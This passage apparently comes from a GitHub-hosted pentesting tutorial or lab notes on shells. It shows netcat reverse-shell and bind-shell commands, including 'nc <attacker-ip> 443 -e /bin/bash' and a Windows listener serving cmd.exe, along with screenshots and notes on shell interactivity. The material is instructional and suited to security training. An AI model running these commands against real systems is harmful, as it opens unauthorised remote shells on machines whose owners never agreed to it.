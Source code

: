 The attacking machine sets up a listener:
```bash
sudo nc -lvnp 443
```

The target machine sends a shell:
```bash
nc <attacker-ip> 443 -e /bin/bash
```

#### 📸 Screenshot: Reverse Shell from Linux Target
![Reverse Shell - Linux](https://github.com/user-attachments/assets/49ad827a-8a18-4426-97fe-541e76259af8)

---

### 📡 Bind Shell Example

Target (e.g., Windows) listens:
```cmd
nc -lvnp 8080 -e "cmd.exe"
```

Attacker connects:
```bash
nc <target-ip> 8080
```

#### 📸 Screenshot: Bind Shell from Windows Target using Evil-WinRM
![Bind Shell - Windows](https://github.com/user-attachments/assets/097edb3c-f730-418c-9f80-052b79d690af)

---

### 🧠 Interactive vs Non-Interactive Shells

- **Interactive Shells**: Allow full CLI interaction (e.g., ssh).
- **Non-Interactive Shells**: Limited functionality, often seen in basic reverse/bind shells.

Example: Running SSH in non-interactive shell fails to show prompt.

#### 📸 Screenshot: SSH Prompt Showing Interactivity
![SSH Interactive Example](https://github.com/user-attachments/assets/9a6439af-f3ed-4862-a9e4-462eb3959791)

---

### 🧪 Custom Listener Demonstration

A shell received through a custom alias (`listener`) shows limited interactivity but works for basic commands.

#### 📸 Screenshot: Listener Command and Connection Output
![Listener Output](https://github.com/user-attachments/assets/ec143693-c13c-46f7-ae21-22767297f8d7)

---
